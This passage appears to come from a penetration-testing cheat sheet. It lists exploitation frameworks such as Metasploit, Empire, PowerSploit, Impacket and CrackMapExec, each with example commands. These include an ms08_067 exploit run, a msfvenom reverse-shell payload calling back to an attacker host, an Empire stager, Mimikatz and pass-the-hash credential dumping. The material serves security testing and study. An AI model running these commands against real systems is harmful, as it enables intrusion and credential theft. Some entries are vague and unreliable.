 | **BLE MITM Attack** | Intercepting and manipulating communication between BLE devices.         | Use tools or scripts designed for man-in-the-middle attacks on BLE.           | Eavesdrop on or manipulate data exchanged between BLE devices.                                       |

---


### 9. Exploitation Frameworks

| Tool            | Description                                                                     | Site/GitHub                                                                                                            | Example Commands                                                                                                                                                                                                                                                                                                                       |
|-----------------|---------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **Metasploit**   | Penetration testing framework for exploiting vulnerabilities and managing sessions. | [https://www.metasploit.com/](https://www.metasploit.com/) or [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework) | `msfconsole`, `search ms08_067`, `use exploit/windows/smb/ms08_067_netapi`, `show options`, `set RHOSTS 192.168.1.100`, `run`, `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=4444 -f exe > payload.exe`, `msfdb init`, `msfupdate`                                                                              |
| **Cobalt Strike** | Commercial adversary simulation and post-exploitation tool.                 | [https://www.cobaltstrike.com/](https://www.cobaltstrike.com/)                                                           | Cobalt Strike is GUI-based and utilizes a variety of modules and commands within its interface. Refer to the official documentation for detailed usage and commands.                                                                                                                                                            |
| **PowerSploit**  | Collection of PowerShell scripts for penetration testing and post-exploitation. | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)                          | `Import-Module .\Exfiltration.ps1`, `Invoke-Mimikatz`, `Invoke-ReflectivePEInjection`                                                                                                                                                                                                                                           |
| **Empire**       | Post-exploitation framework for PowerShell and Python agents.                    | [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)                                       | `./empire`, `agents`, `usemodule stager/windows/launcher_bat`, `set LHOST <Your IP>`, `set Listener http`, `execute`, `interact <agent name>`, `shell whoami`                                                                                                                                                                |
| **Impacket**     | Collection of Python classes for working with network protocols.                | [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)                                    | `python examples/smbclient.py -U username //target/C$`, `python examples/smbexec.py username@target`, `python examples/secretsdump.py -hashes :LMHASH:NTHASH username@target`, `python examples/wmiexec.py username@target`                                                                                                   |
| **CrackMapExec (CME)** | Post-exploitation tool for Active Directory environments.               | [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)                               | `cme smb <target> -u <user> -p <password> --shares`, `cme smb <target> -u <user> -p <password> --exec -i <command>`, `cme ldap <target> -u <user> -p <password> --groups`, `cme winrm <target> -u <user> -p <password> --command "ipconfig"`                                                                                    |
| **Arsenal**      | Suite of tools for penetration testing.                                        | [https://github.com/Arsenal/Arsenal](https://github.com/Arsenal/Arsenal)                                                 | Arsenal is a collection of various tools and scripts. Commands vary depending on the specific tool used within the Arsenal framework. Refer to the Arsenal documentation for details on the tools and their usage.                                                                                                            |
| **Abuse**        | Collection of tools for penetration testing and security assessments.          | [https://github.com/abuse/abuse](https://github.com/abuse/abuse)                                                     | Abuse is a framework that includes a variety of tools. Commands vary depending on the specific tool being used within the Abuse framework. Refer to the documentation of each individual tool for specific commands and usage instructions.                                                                                    |